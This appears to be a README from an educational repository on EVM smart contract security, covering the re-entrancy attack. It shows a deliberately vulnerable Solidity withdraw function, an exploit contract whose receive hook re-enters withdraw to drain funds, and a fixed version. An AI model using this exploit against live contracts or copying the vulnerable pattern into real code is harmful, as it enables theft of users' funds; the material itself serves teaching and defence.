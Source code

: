 # 🚧 WORK IN PROGRESS 🚧

# Security research

This repo aims to cover the most common security vulnerabilities in EVM smart contracts,
and provides a set of tools to help developers to find and fix them.
Vulnerabilities are categorized by their type, each type has an example of a vulnerable contract,
a fixed contract (proof) and an exploit to verify the vulnerability.

## ReEntrancy Attack

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.

### Vulnerable withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyVulnerable.sol)

```solidity
    /**
     * @dev Function to withdraw your deposited funds **vulnerable - do not use**
     */
    function withdraw() public {
        /**
         * @dev The interaction is made BEFORE the state update
         *      **wrong**
         */
        (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");

        /**
         * @dev Update the state
         *      **wrong**
         */
        if (success) balances[msg.sender] = 0;
    }
```

### ReEntrancy Exploit

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyExploit.sol)

Contract to exploit the vulnerable contract, it can be used to drain the contract balance.
The receive function, fired on plain Ether transfers, is used to trigger the re-entrancy attack.

```solidity
 /**
     * @dev Function to attack target contract
     */
    function exploit() external payable {
        require(msg.value >= 1 ether);
        target.deposit{value: 1 ether}();
        target.withdraw();
    }

    /**
     * @dev Function executed on plain Ether transfers
     */
    receive() external payable {
        if (
            address(target).balance >= 1 ether
        ) {
            target.withdraw();
        }
    }
```

### Fixed withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyProof.sol)

This contract is free from re-entrancy attacks

```solidity
    /**
     * @dev Function to withdraw your deposited funds
     */
    function withdraw() public {
        /**
         * @dev Update the state
         *      **right**
         */
        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;

        /**
         * @dev The interaction is made AFTER the state update
         *      **right**
         */
        (bool success, ) = msg.sender.call{value: amount}("");

        /**
         * @dev Check if the interaction was successful
         *      **right**
         */
        require(success, "Transfer failed.");
    }
```

## Installation

```bash
forge install
forge test
```
